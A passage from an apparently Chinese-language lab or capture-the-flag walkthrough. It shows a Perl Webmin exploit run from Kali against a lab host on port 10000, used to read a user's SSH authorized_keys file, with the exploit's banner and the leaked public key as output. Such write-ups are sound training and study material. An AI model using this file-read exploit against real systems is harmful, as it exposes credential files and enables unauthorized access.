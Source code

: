 

`vmware`用户有免密登录

`authorized_keys`文件获取

```bash
┌──(kali㉿kali)-[~]
└─$ sudo perl 2017.pl 10.10.10.16 10000 /home/vmware/.ssh/authorized_keys 0
sudo: unable to resolve host kali: Name or service not known
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /home/vmware/.ssh/authorized_keys

 FILE CONTENT STARTED
 -----------------------------------
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAzASM/LKs+FLB7zfmy14qQJUrsQsEOo9FNkoilHAgvQuiE5Wy9DwYVfLrkkcDB2uubtMzGw9hl3smD/OwUyXc/lNED7MNLS8JvehZbMJv1GkkMHvv1Vfcs6FVnBIfPBz0OqFrEGf+a4JEc/eF2R6nIJDIgnjBVeNcQaIM3NOr1rYPzgDwAH/yWoKfzNv5zeMUkMZ7OVC54AovoSujQC/VRdKzGRhhLQmyFVMH9v19UrLgJB6otLcr3d8/uAB2ypTw+LmuIPe9zqrMwxskdfY4Sth2rl6D3bq6Fwca+pYh++phOyKeDPYkBi3hx6R3b3ETZlNCLJjG7+t7kwFdF02Iuw== vmware@ubuntuvm

 -------------------------------------
```

